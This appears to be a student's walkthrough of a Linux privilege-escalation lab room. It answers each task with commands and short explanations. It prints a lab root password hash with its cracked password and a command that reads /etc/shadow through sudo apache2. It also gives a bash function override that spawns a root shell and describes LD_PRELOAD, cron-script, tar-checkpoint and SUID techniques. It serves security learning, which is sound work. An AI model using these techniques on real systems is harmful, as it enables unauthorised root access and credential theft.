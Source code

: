 # Linux PrivEsc Room

## Task 1

### 1 - deploy

### 2 - Run the "id" command. What is the result?

```
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

## Task 2

### 1 - just do the walkthrough

## Task 3

###  1- What is the root user's password hash?
```
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
```

### 2 - What hashing algorithm was used to produce the root user's password hash?

When running john the ripper to crack the hash, the identified algorithm is printed

```
sha512crypt
```

### What is the root user's password?

```
password123
```

## Task 4

### 1 - just do the walkthrough

## Task 5

### 1 - Run the "id" command as the newroot user. What is the result?
```
uid=0(root) gid=0(root) groups=0(root)
```
## Task 6

### 1 - How many programs is "user" allowed to run via sudo?

just do sudo -l

```
11
```

### 2- One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

```
apache2
```

### - Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.

First check what the program can do 

```
apache2 -h
```

One interesting thing is that a SeverConfigFile can be passed lets check what it does with a file that is not intended to that

```
apache2 -f /etc/shadow

ERROR: Invalid command 'root:$6$Bpo0vPJ.upnZwV6$6Y0iHQANQNyaLUQzFmB.2IFKoKXfEvMx/EPs23Hy/GkitDbylIg6.VRO5VBAI.AdXy7U84YWEeEyqk.Um3WRj0:17298:0:99999:7:::',
```

Well, we got the content of the /etc/shadow... just need to crack the password

## Task 7

sudo -l

```
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```

if we issue a call with LD_PRELOAD it will load the libraries (or the objects) before the application we are trying to execute... As in the example the programs consisted only of spawning a bash shell (besides the env variable cleaning and the setresuid) and since we are running it with sudo, we will get a sudo shell.

The LD_LIBRARY_PATH will do the sabe but for the libraries

## Task 8

after running 

```
cat /etc/crontab
```

Exist an entry to run a file called overwrite.sh which have world rw permissions and is executed by root.

This walk explains only that from time to time it will be executed (its a cron task) and since is world writable we can create a backdoor with it using a reverse shell.


## Task 9

This is the same, just showing that the path variable is set in the crontab and contains the regular user folder in the beggining which will make the overwrite.sh from the user folder to be executed instead of the intended.

## Task 10

This task abuses the tar application and its checkpoint feature. This feature allows to execute a program when a checkpoint is reached. 
<br>
since the compress.sh script compressess all the files without checking it will identify those created files as commands and will execute them

## Task 11

First we need to find binaries with SUID and GUID bit set... i used a different command than the shown one

```
find / -type f -perm /u+s,g+s -print 2>/dev/null


Result:
/usr/bin/expiry
/usr/bin/ssh-agent
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/chage
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/wall
/usr/local/bin/suid-so
/usr/local/bin/suid-env
/usr/local/bin/suid-env2
/usr/sbin/exim-4.84-3
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/bin/ping6
/bin/ping
/bin/mount
/bin/su
/bin/umount
/tmp/rootBash
/sbin/unix_chkpwd
/sbin/mount.nfs
```

After this the idea would be check the exploit db for all of this binaries. Since they are alot and its written in the walktrough which it is, lets search.

## Task 12

The walkthrough just injects a shared object to take leverage of a missing .config file seen through the strace app.

To exploit this shared libraries vulns the file that spawns a shell needs to have an \__attribute__((constructor)) that will call the function when the library is loaded.
<br>
Contrary, if __attribute__((destructor)) was used, it would be called when the library was unloaded.

## Task 13

Since the call to service to launch the apache server was not using absolute paths, relying on name resolution through path and since it uses the path from the user executing the binary, the path variable can be modified to search in a specific directory first and make an exploit that just spawns a shell.

## Task 14

I didnt knew, but creating shell functions is possible and quite easy.
<br>
Something like this is achievable in bash

```
function hello { echo "hello world"; }

~ hello 
hello world
```

in the running version of bash (version < 4.2-048), it is possible to create functions with path-like names and this would break the absolute paths as this task tried to mitigate from the last

```

function /usr/sbin/service { /bin/bash -p}
export -f /usr/sbin/service (the trick is in the -f, which refers to functions)
```

## Task 15